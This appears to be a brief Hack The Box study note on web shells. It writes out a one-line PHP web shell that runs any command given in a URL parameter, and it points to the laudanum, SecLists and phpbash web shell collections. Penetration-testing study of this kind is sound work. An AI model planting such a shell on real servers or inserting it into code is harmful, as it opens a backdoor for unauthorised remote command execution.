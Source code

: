 
```shell
la1n23@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Collection of webshells laudanum:
https://github.com/jbarcia/Web-Shells/tree/master/laudanum
`cp /usr/share/laudanum/... shellfile`

`/opt/useful/seclists/Web-Shells/



https://github.com/Arrexel/phpbash